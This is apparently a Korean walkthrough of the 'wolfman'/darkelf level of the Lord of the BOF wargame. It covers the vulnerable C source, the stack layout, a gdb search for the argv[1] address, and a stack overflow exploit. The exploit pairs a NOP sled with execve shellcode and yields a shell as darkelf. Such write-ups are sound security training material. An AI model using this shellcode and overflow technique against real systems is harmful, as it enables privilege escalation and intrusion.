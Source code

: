 ============================================================================================================
[lob] wolfman
============================================================================================================



.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }


|

Memory Structure
============================================================================================================


스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte)
	argc    (4byte)
	argv    (4byte)
	----------------
	HIGH    
	================


|

Segmentation fault
============================================================================================================


버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./darkelf `python -c 'print "a"*47'`
    stack is still your friend.
    $ ./darkelf `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

gdb를 이용하여 argv가 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/wolfman/darkelf2 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffad8       -1073743144

    (gdb) i reg $ebp
    ebp            0xbffffaf8       -1073743112

    (gdb) x/100x $esp

	==========================================================================
	0xbffffad8:     0xbffffaf8      0x400309cb      0x00000002      0xbffffb24
	0xbffffae8:     0xbffffb30      0x40013868      0x00000002      0x08048450
	0xbffffaf8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffffb08:     0xbffffb24      0x08048390      0x0804864c      0x4000ae60
	0xbffffb18:     0xbffffb1c      0x40013e90      0x00000002      0xbffffc1a
	0xbffffb28:     0xbffffc31      0x00000000      0xbffffc62      0xbffffc84
	0xbffffb38:     0xbffffc8e      0xbffffc9c      0xbffffcbb      0xbffffccb
	0xbffffb48:     0xbffffce4      0xbffffd00      0xbffffd1f      0xbffffd2a
	0xbffffb58:     0xbffffd38      0xbffffd7a      0xbffffd8d      0xbffffda2
	0xbffffb68:     0xbffffdb2      0xbffffdbf      0xbffffddd      0xbffffde8
	0xbffffb78:     0xbffffdf9      0xbffffe0b      0xbffffe1a      0xbffffe22
	0xbffffb88:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffb98:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffba8:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffbb8:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffbc8:     0x000001f9      0x0000000c      0x000001f9      0x0000000d
	0xbffffbd8:     0x000001f9      0x0000000e      0x000001f9      0x00000010
	0xbffffbe8:     0x0fabfbff      0x0000000f      0xbffffc15      0x00000000
	0xbffffbf8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffc08:     0x00000000      0x00000000      0x00000000      0x38366900
	0xbffffc18:     0x682f0036      0x2f656d6f      0x666c6f77      0x2f6e616d
	0xbffffc28:     0x6b726164      0x32666c65      0x61616100      0x61616161
	0xbffffc38:     0x61616161      0x61616161      0x61616161      0x61616161
                            ^ argv[1] = 0xbffffc41
	0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
	0xbffffc58:     0x61616161      0x61616161      0x454c00bf      0x504f5353
	==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./darkelf `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x41\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀A▒▒▒

    bash$ whoami
    darkelf
    bash$ my-pass
    euid = 506
    kernel crashed

